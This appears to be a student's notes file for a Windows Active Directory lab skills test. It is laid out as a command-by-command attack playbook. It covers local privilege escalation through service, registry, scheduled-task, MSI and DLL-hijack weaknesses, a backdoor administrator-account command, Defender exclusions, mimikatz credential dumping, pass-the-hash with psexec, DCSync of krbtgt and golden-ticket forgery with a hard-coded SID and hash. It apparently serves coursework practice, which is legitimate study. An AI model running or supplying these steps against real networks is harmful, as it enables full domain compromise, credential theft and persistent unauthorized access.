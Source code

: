 >>> general

0) info
> within the notes there are some instructions on how to make certain files, but they can just be downloaded from the repository :)
> the dll, exe and msi files have been tested and should just work (username: Helpdesk & pass: L3tm3!n)
> if they don't work you'll have to make them yourself, the notes might help you with it

1) orientation
> ip's and names (hostname, dc-name, etc.) might be outdated for skills test
> use angry ip scanner if available
> look for services without description
> look for services with unquoted service paths
> look for services running as a named user account
> check "C:\Windows\Tasks Migrated" for weakly named tasks (single word names)
> check "\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc" (imagepath edit)
> use -> accesschk -uwvc "normaluser" * <- (daclsvc)

2) files to download
> sysinternals suite > https://download.sysinternals.com/files/SysinternalsSuite.zip
> mimikatz > https://github.com/gentilkiwi/mimikatz
// > mike's dll + C code from OneDrive (if dll hijack) (use this repo instead if you want)
// > bat2exe > https://github.com/islamadel/bat2exe/releases/download/2.1/bat2exe.exe > "access denied error"
// > bat to exe converter > https://bat-to-exe-converter-x64.en.softonic.com/ > should work (make sure to use the 64bit exe-format)

3) commands
> whoami (check current user in terminal)
> dir (list directory contents)
> net user (see users on machine)
> hostname (local domain name)
> echo %logonserver% (domain controller name)
> echo %path% (check path variables for dll hijack)

4) add user command
> net user Helpdesk L3tm3!n /add && net localgroup administrators Helpdesk /add

__________________________________________________________________________________________
__________________________________________________________________________________________
__________________________________________________________________________________________


>>> privilege escalation methods

1) remote mouse // not gonna be in the test (confirmed)
// > click on green icon bottom right
// > settings
// > under image transfer folder click "Change..."
// > click OK if prompted with error
// > go to C:\Windows\System32 and type "cmd"
// > right click cmd -> open (opens system cmd)
// > [add user command]

2) unquoted service path (method could be outdated due to bat2exe not working, use "bat to exe converter")
> open services
> sort by description, so services without a description appear on top
> check if "path to executable:" has spaces and no quotes
> example -> C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
> look for writable directory, for example C:\Program Files\Unquoted Path Service
> services always expect an executable (.exe)
> create folder on desktop
> create batch file (.bat) with "[add user command]"
> place batch file inside folder
> use bat2exe on that folder (run bat2exe from cmd)
> rename to common.exe (for this example ofc)
> place exe in C:\Program Files\Unquoted Path Service
> run service
> net user in cmd to check if user is added
> if not, restart machine, run service and check again
> if you have executable rights, maybe run exe from cmd, who knows

3) weak file permission services
> example from lab: C:\Program Files\File Permissions Service\filepermservice.exe
> "filepermservice.exe" can be renamed
> check steps above to make own exe
> place exe inside C:\Program Files\File Permissions Service
> rename old .exe to whatever
> name your own exe to "filepermservice.exe"
> start service
> net user in cmd to check if user is added

4) weak registry permissions (regsvc)
> open registry editor
> go to \HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc
> right click on imagepath -> select modify
> edit the value data so it points to an exe you control, or
> with bat2exe you can make a .exe that that adds an administrative user (see the notes above)
> open services
> look for the service that has the modified image path as the "path to executable"
> run the service

5) scheduled task
> "C:\Windows\Tasks Migrated" may contain tasks you can exploit / configure
> example from lab: pinger
> "C:\Windows\Tasks Migrated" contained the task "pinger"

> open task in notepad (easier method than opening in task scheduler)
> on line 5 should be the author
> if it's "administrator", the task should run with elevated privs
> at the bottom of the file should be the command it runs
> go to the directory of the file it runs, and check if you can change the name
> place your own file in the directory and rename it to the filename you saw in notepad

// > the "tasks migrated" folder shouldn't be in the folder tree
// > go to action -> import task
// > select "all files" on bottom right
// > navigate to "C:\Windows\Tasks Migrated"
// > open "pinger" or whatever task looks weak (only one word for example)
// > go to triggers and see what triggers it
// > go to action to see what it does and what file it triggers (.bat for example)
// > check if the file is renamable and if the directory is writable
// > rename the file to whatever
// > place your own file (add administrative user through a batch file)

6) DACL service
> go to services
> check if there is a dacl service (daclsvc)
> open cmd
> go to where you stored your sysinternals
> accesschk -uwvc "normaluser" *
> it might say "RW daclsvc" (should mean you have read/write rights for the service actions listed)
> sc config daclsvc binpath="cmd /c cmd.exe /c net user Helpdesk L3tm3!n /add && net localgroup administrators Helpdesk /add"
> run the service
> might have to do the sc command multiple times and run the service again

7) msi exploit
> open registry editor
> go to:
> Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
> and
> Computer\HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
> if both have "AlwaysInstallElevated" set to 1, .msi files will be executed with highest privileges
> you might be able to install a .exe to .msi converter on the host machine
> or easier, just use the .msi file from this repo

8) dll hijack
> last resort for privilege escalation
> go to services
> there may be a service that indicates a dll hijack
> go to the properties of the service to see the path and name of the .exe it calls
> copy the .exe to your own machine (drag n drop or shared folder)
> open cmd on own machine
> sc create ServiceName binPath= "C:\temp\name.exe" (insert name of .exe)
> run service you made
> open procmon (from sysinternals) on own machine
> click on filter icon (ctrl+L) and add the following 2 filters:
> [result] [is] [NAME NOT FOUND] -> click add
> [path] [ends with] [.dll] -> click add
> click ok
> click on process name to sort
> if the .exe and its dll have multiple entries (like 5+), the %path% variable might be used
> note down the name of the dll
> go back to the VM and open cmd
> echo %path%
> look if there is a writable directory listed (like C:\temp)
> go back to own machine
> download Mike's dll + C code from OneDrive if not done yet (or use this repo)
> note down the the fake admin credentials after opening his C code in notepad
> rename dll to the name you noted down earlier
> copy dll to the VM
> place dll inside the directory you found in %path%
> run service
> net user in cmd to check if it worked

__________________________________________________________________________________________
__________________________________________________________________________________________
__________________________________________________________________________________________


>>> static steps after local priv escalation

1) defender exclusion:
> defender icon on bottom right (or type virus and threat protection in search)
> virus and threat protection
> manage settings
> add or remove exclusions
> use fake admin login (".\" for local account)
> add exclusion (folder)
> select c drive

2) download mimikatz/sysinternals
> store in c:\temp for easy access
> same with sysinternals suite

3) administrator hash
> open cmd with fake admin
> cd C:\temp\mimikatz_trunk\x64
> mimikatz
> privilege::debug
> sekurlsa::logonpasswords
> copy ntlm hash from administrator (session:service from 0)

4) priv escalation
> sekurlsa::pth /user:administrator /domain:win10client /ntlm:hash
> dir \\192.168.56.30\c$ (to double check privilege)
> cd C:\temp\SysinternalsSuite
> psexec -r name \\192.168.56.30 cmd

5) admin machine
> whoami (should be administrator)
> cd C:\
> md temp (create temp dir)
> dir (check if temp directory was created
> powershell
> set-mppreference -exclusionpath C:\temp
> (get-mppreference).exclusionpath -> checks the exluded paths
> exit (exits out of PS)
> cd temp
> type "mimikatz" (do not run yet)

6) copying mimikatz to admin machine
> go to original mimikatz cmd (or open new one)
> sekurlsa::pth /user:administrator /domain:win10client /ntlm:hash
> in the new cmd window
> net use x: \\192.168.56.30\c$
> x:
> cd temp
> get ready to switch to admin window from step 5
> copy C:\temp\mimikatz_trunk\x64\*.* .
> immediately run mimikatz on admin machine
> successful if mimikatz is visible on admin machine

7) grab domain admin hash
> privilege::debug
> sekurlsa::logonpasswords
> copy domain admin hash (should be the first one)
> let teacher know if domain admin (domad) doesn't show up

8) dcsync on domain controller
> close both admin cmd windows (you dont need them anymore)
> go to original mimikatz cmd (or open new one)
> sekurlsa::pth /user:domad /domain:adlab.local ntlm:hash
> dir \\192.168.56.10\c$
> cd C:\temp\SysinternalsSuite
> mimikatz
> privilege::debug
> lsadump::dcsync /domain:adlab.local /all /csv
> copy krbtgt

9) golden ticket
> open a normal cmd windows
> whoami /user - copy everyting except last 4 digits
> go to mimikatz
> kerberos::golden /domain:adlab.local /sid:S-1-5-21-3704816349-2630934885-840893638 /rc4:cc326e8519157da4bf8ef543b8680dc3 /user:abcdef /id:500 /ptt

> or.. save for later
> kerberos::golden /domain:adlab.local /sid:S-1-5-21-3704816349-2630934885-840893638 /rc4:cc326e8519157da4bf8ef543b8680dc3 /user:abcdef /id:500 /ptt
> kerberos::ptt ticket.kirbi
> misc::cmd

> dir \\win2019dc\c$
